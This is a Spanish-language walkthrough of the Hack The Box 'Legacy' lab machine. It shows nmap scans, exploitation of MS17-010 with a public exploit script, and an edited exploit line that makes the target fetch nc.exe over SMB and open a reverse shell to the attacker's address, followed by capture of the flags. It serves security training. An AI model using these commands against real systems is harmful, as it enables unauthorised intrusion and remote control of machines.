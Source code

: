 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/legacy.jpg)

## Windows - Easy
IP = 10.10.10.4

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -vvv -oG allPorts 10.10.10.4
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/allPorts.jpg)

    nmap -p139,445 -sV -sC -vv -Pn -oN targeted 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/targeted.jpg)

Realizamos un escaneo de las vulnerabilidades del servicio smb

    nmap -p 445 --script "vuln and safe" -Pn -oN servicioScan 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/smbScan.jpg)

Nos muestra que el servicio es vulnerable al MS17-010


Nos descargamos el exploit de: 
https://github.com/worawit/MS17-010

Ejecutamos el checker.py para comprobar syi los named pipes responden

    python2 checker.py 10.10.10.4

Comprobamos que el spoolss y el browser son vulnerables.
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/checker.jpg)


Ahora vamos a explotar la vulnerabilidad con el zzz_exploit.py pero antes tenemos que editar para que nos ejecute nuestra reverse shell.
1.- buscamos en nuestro equipo con locate nc.exe y nos lo copiamos a la ruta que vamos a compartir

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/locate.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/cp.jpg)

2.- editamos el exploit para indicarle como va a ser nuestra reverse shell.
Comentamos las lineas que ya no queremos que se ejecuten (flecha de arriba) e incluimos nuestra ejecucion (flecha de abajo)

     service_exec(conn, r'cmd /c \\10.10.14.2\smb\nc.exe -e cmd.exe 10.10.14.2 4444')

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/exploit.jpg)

3.- Ejecutamos el exploit
Para ejecutar el exploit tenemos que hacer varias cosas.
   1.- Compartimos una ruta de la cual vamos a coger el nc.exe con impacket y le indicamos que soporte smb2
                                
      impacket-smbserver smb $(pwd) -smb2support
      
   2.- Ponemos el puerto configuracido para la reverse shell a la escucha en nuestra maquina 
    
      nc -lvp 4444

   3.- Ejecutamos el zzz_exploit.py
   
    python2 zzz_exploit.py 10.10.10.4 spoolss

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/accesLegacy.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/acceso.jpg)
    
Accedemos a la carpeta del usuario y en el escritorio encontramos la flag  

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/user.jpg)
      
### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/root.jpg)
